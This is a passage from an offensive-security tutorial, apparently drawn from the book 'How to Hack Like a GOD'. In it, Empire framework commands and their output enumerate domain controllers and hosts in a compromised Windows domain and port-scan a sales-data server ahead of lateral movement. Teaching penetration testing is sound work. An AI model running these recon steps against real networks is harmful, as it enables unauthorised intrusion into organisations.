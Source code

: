 # Pass-the-hash

*Note: this section continues from the previous cookbook on abusing domain trust with Empire and follows demonstrations from the book "How to Hack Like a GOD: Master the Secrets of Hacking Through Real Life Scenarios" (continuing from page no. 87)*

To strategize our movement within the GBSALES domain, we first need to understand its layout. We use the get_domain_controller reconnaissance module to list all domain controllers in GBSALES:

```
(Empire: DCshop) > usemodule situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > set Domain GBSALES.CORP
(Empire: get_domain_controller) > execute
Job started: Debug32_rx9ml

Forest         OSVersion          Domain          IPAddress
-----------------------------------------------------------
GBSALES.CORP  Windows Server 2012 R2  GBSALES.CORP  10.30.30.88
GBSALES.CORP  Windows Server 2012 R2  GBSALES.CORP  10.30.30.89
```

The output reveals a couple of domain controllers for GBSALES, indicating this domain is part of a different Forest (GBSALES.CORP). If it were in the same Forest as GBSHOP, we could potentially use the krbtgt account from GBSHOP.

Next, we need to enumerate all Windows hosts in the GBSALES domain to gauge the size of the target:

```
(Empire: DCshop) > usemodule situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set Domain GBSALES.CORP
(Empire: get_computer) > execute
Job started: Debug32_5u89t

SL0009.GBSALES.CORP
SL0010.GBSALES.CORP
SL0011.GBSALES.CORP
SL0012.GBSALES.CORP
[...]
SL0088.GBSALES.CORP
SL0089.GBSALES.CORP
SL0090.GBSALES.CORP
[...]
SL0210.GBSALES.CORP
Get-NetComputer completed!
```

Compared to GBSHOP, which had only a few servers, GBSALES is significantly larger with a total of 350 hosts. Among these, note the SL0210 server (10.30.30.210), which is known from previous scripts to be a central hub for sales data.

A quick port scan on the SL0210 server reveals the following:

```
(Empire: DCshop) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Ports 135
(Empire: portscan) > set Hosts SL0210.GBSALES.CORP
(Empire: portscan) > execute
Job started: Debug32_hp38u

Hostname                OpenPorts
-------------------------------
SL0210.GBSALES.CORP     135
```
